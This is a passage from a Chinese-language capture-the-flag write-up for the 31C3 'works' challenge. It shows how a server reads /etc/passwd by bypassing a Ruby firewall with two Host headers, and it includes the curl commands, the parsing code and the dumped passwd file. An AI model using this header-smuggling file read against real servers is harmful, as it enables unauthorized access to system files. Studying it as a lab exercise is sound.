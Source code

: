 ```
close(fd); 

```

但是直接这样发送请求会被 fw.rb forbidden。

```
root@kali:~# curl http://works.90.31c3ctf.aachen.ccc.de/passwd -H 'Host: /etc/'
Forbidden 
```

再看一下 fw.rb 的逻辑会获取最后一次出现的 Host

```
def parse_headers(line_reader)
        line_reader.collect do |line|
            [$1, $2] if line=~ /\A([^:]*): *(.*)\z/
        end.compact.inject({}) { |h, x| h[x[0]]= x[1]; h }
 end

```

serve_file 会获取第一次出现的 Host

```
for (;;) {
        if (!read_line(buffer, &buf_size)) {
            goto invalid;
        }
        if (*buffer == '\r') {
            goto invalid;
        }
        if (strncmp(buffer, "Host: ", sizeof("Host: ")-1) == 0) {
            break;
        }
        char *eol= strchr(buffer, '\r');
        buf_size-= eol-buffer-2;
        buffer= eol+2;
} 

```

这样我们就可以构造两个 Host 来绕过 fw.rb 了。

```
root@kali:~# curl http://works.90.31c3ctf.aachen.ccc.de/passwd -H 'Host: /etc/' -H 'Host:
works.90.31c3ctf.aachen.ccc.de'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:100:103::/home/syslog:/bin/false
messagebus:x:101:105::/var/run/dbus:/bin/false
uuidd:x:102:107::/run/uuidd:/bin/false
```